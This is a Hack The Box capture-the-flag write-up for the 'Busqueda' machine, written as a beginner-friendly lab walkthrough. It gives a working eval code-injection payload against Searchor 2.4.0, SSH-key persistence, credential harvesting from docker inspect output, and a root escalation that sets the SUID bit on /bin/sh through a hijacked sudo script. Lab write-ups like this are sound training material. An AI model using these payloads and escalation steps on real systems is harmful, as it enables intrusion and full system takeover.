

Summary
Today we’re doing Busqueda from Hack The Box. It’s supposed to be an easy machine but, for me i think it’s much more of a medium one. The web server on this box is based on Flask (Python), and while these tend to be vulnerable to SSTI and code execution, it was a bit hard to craft the right payload, after getting a foothold on the box, User was straight forward, Root has many misleading routes, but with a good wide enumeration, you’ll find your way in. Please do not refer to this Writeup unless you have tried enough, it took me 4 Days to pwn the box, after a plenty of research, that’s how you learn! Not by reading writeups and applying the steps to get the flags!
Recon | Thought Process
As always, i start with an nmap scan
nmap -sC -sV -oN nmap $IP;
# Nmap 7.92 scan initiated Fri Apr 14 00:30:50 2023 as: nmap -sC -sV -v -oN nmap 10.10.11.208
Nmap scan report for 10.10.11.208
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_ 256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open http Apache httpd 2.4.52
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 14 00:31:11 2023 -- 1 IP address (1 host up) scanned in 21.18 seconds
and we’ve got two ports open, one of them being SSH on port 22 and its banner tells us it’s an Ubuntu server, and a web server on port 80, we can see from the response that the hostname is searcher.htb, so we’re going to add that to our hosts file:
vim /etc/hosts
# Host addresses
127.0.0.1 localhost
127.0.1.1 parrot
10.10.11.208 searcher.htb
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
# Others
Now after poking at the website, it seemed like it’s a python based framework/library or something that creates search queries for you using a list of search engines (Google, Wikipedia,Amazon..etc). It’s very important and a big part of my process is to understand how the web application work, and it seems to be pretty simple, you chose an engine, enter a search query and a there’s a third optional parameter to chose wether to auto-redirect to the search engine website. If we don’t select auto-redirect, we get a reflection of the result url. And when i saw that, i immediately thought of either SQLI, RCE or SSTI, python based web apps tend to be vulnerable to code execution.
Next step is, i viewed the source code with Ctrl+U to see if anything stands out or if i can recongnize any vulnerable framework. And it happend that there was a reference to a package named Searchor 2.4.0 along with its version and the github repo. 
Now first thing i do after enumerating a version of a specific framework is search for known CVES or vulnerabilites, for that just google Searchor 2.4.0 vulnerabilites, there’s one entry in snyk.io database and it’s Arbitary Code Execution but no Proof of Concept is found! This means we have to figure that ourselves and craft the right payload, for that we have to inspect the source code so we’ll head to the github repo. After navigating arround i found an interresting commit about replacing the eval function in the cli method. If you don’t know about eval then you should stop reading at this point, learn more about it and come back. It’s basically a dangerous python function if not implemented correctly could lead to executing system commands. Here’s a good article about it: https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html
After seeing how eval is implemented here, we notice that it takes the search query as one of its arguments. So i decided i’m going to play with it in Burp, hopefully i’ll be able to craft the right payload. After so many attempts and a lot of googling and pasting payload, i was finally able to find the right payload.
I didn’t quite fully understand why did it have to be like that, the encoding was tricky:
'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("id")','a','single'))%2b'
But hey, it worked! Sometimes it’s all about that, just spray and pray but, it’s important to understand how it works.
User
We have code execution as svc right now, before we pop up a shell, we can grab the user flag:
'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("cat ~/user.txt")','a','single'))%2b'
There are many ways to get a shell but i like to make an ssh key, i’m going to skip this because it’s easy. Just make a pair of keys with:
ssh-keygen
copy id_rsa.pub to authorized_keys on the box, don’t forget to change permissions on the private key:
chmod 600 id_rsa
We should be good to go:
ssh -i id_rsa svc@searcher.htb
Root
I spent a lot of time digging arround without finding anything, just looking for some credentials to execute some useful commands such as sudo -l, luckily, it took me longer than it should, i found a .git folder in the webserver directory, first thing you do when you find a git directory, is to view the config file, and then view the commits and the logs. In this case, the config file had the credentials i was looking for:
svc@busqueda:~$ sudo -l
Matching Defaults entries for svc on busqueda:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User svc may run the following commands on busqueda:
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
We can run a python script called system-checkup.py as root, after viewing the help, the script seemed to do two out of three things i understood, it can list available docker containers with docker-ps argument, secondly, it can inspect the container with docker-inspect, there’s a third option that i didn’t understand at first; full-checkup. But by now, i’m sure this script would be our privelage escalation vector.
Now let’s go ahead and inspect the docker containers on this box, first we list them:
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES
960873171e2e gitea/gitea:latest "/usr/bin/entrypoint…" 3 months ago Up 39 minutes 127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp gitea
f84a6b33fb5a mysql:8 "docker-entrypoint.s…" 3 months ago Up 39 minutes 127.0.0.1:3306->3306/tcp, 33060/tcp mysql_db
mysql_db seems quite the one, next we inspect the database, the syntax for the command is same as docker, if you’re not familiar with docker, the commands will look weird to you. In that case, refer to docker docs.
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect format='{{json .Config}}' mysql_db
format={"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{
},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=
yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","M
YSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Ent
rypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538
c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.proje
ct.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.co
mpose.version":"1.29.2"}}
We now have some mysql passwords, but what also got my attention is MYSQL_USER=gitea, when i see gitea there’s a big chance a git instance is running on localhost, by now i just slapped my face thinking why did i forget to check for these, i usually bruteforce for virtual hosts as part of my recon process, and also check for local ports and what’s running on them. In this case i immediately went ahead and checked apache’s sites-enabled:
svc@busqueda:~$ cat /etc/apache2/sites-enabled/000-default.conf
<VirtualHost *:80>
ProxyPreserveHost On
ServerName searcher.htb
ServerAdmin admin@searcher.htb
ProxyPass / http://127.0.0.1:5000/
ProxyPassReverse / http://127.0.0.1:5000/
RewriteEngine On
RewriteCond %{HTTP_HOST} !^searcher.htb$
RewriteRule /.* http://searcher.htb/ [R]
ErrorLog ${APACHE_LOG_DIR}/error.log
CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
<VirtualHost *:80>
ProxyPreserveHost On
ServerName gitea.searcher.htb
ServerAdmin admin@searcher.htb
ProxyPass / http://127.0.0.1:3000/
ProxyPassReverse / http://127.0.0.1:3000/
ErrorLog ${APACHE_LOG_DIR}/error.log
CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
As we can see, there’s a web server (git instance) running locally on port 3000, now let’s ssh tunnel is to our machine and we’ll be able to view the web server:
ssh -L 3000:127.0.0.1:3000 svc@searcher.htb
Now we have the instance running on our localhost on port 3000:
From here we go sign in, we can sign in with the coby credentials we got from the git config file but we won’t find anything there, we will use the administrator with the passwords we got from mysql_db, when we’re in we’ll find a python script named full-checkup.py in the scripts repository:
#!/bin/bash
import subprocess
import sys
actions = ['full-checkup', 'docker-ps','docker-inspect']
def run_command(arg_list):
r = subprocess.run(arg_list, capture_output=True)
if r.stderr:
output = r.stderr.decode()
else:
output = r.stdout.decode()
return output
def process_action(action):
if action == 'docker-inspect':
try:
_format = sys.argv[2]
if len(_format) == 0:
print(f"Format can't be empty")
exit(1)
container = sys.argv[3]
arg_list = ['docker', 'inspect', '--format', _format, container]
print(run_command(arg_list))
except IndexError:
print(f"Usage: {sys.argv[0]} docker-inspect <format> <container_name>")
exit(1)
except Exception as e:
print('Something went wrong')
exit(1)
elif action == 'docker-ps':
try:
arg_list = ['docker', 'ps']
print(run_command(arg_list))
except:
print('Something went wrong')
exit(1)
elif action == 'full-checkup':
try:
arg_list = ['./full-checkup.sh']
print(run_command(arg_list))
print('[+] Done!')
except:
print('Something went wrong')
exit(1)
if __name__ == '__main__':
try:
action = sys.argv[1]
if action in actions:
process_action(action)
else:
raise IndexError
except IndexError:
print(f'Usage: {sys.argv[0]} <action> (arg1) (arg2)')
print('')
print(' docker-ps : List running docker containers')
print(' docker-inspect : Inpect a certain docker container')
print(' full-checkup : Run a full system checkup')
print('')
exit(1)
This is 100% the script we found on the box, after reading and trying to understand how it works, i managed to spot the jackpot, the full-checkup argument checks if there’s a full-checkup.sh script in the current directory and simply executes it, so our attack flow would be as follow, and by now there are many ways to get root, you can get the flag without need to get a root shell, but for elaboration purposes, i will create the file and make it add as suid bit on /bin/sh so when we run it as sudo we’ll get a root bash shell.
This is the file i created, a simple exploit:
svc@busqueda:~$ cat full-checkup.sh
#!/bin/bash
chmod +s /bin/sh
svc@busqueda:~$ chmod +x full-checkup.sh
Now we run the command:
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
[+] Done!
svc@busqueda:~$
svc@busqueda:~$ /bin/sh -p
# id
uid=1000(svc) gid=1000(svc) euid=0(root) egid=0(root) groups=0(root),1000(svc)
# cat /root/root.txt
d{REDACTED}d
That is the box, i hope you enjoyed my writeup, i realize i have over explained things sometimes but that was intentional, my content is beginner friendly.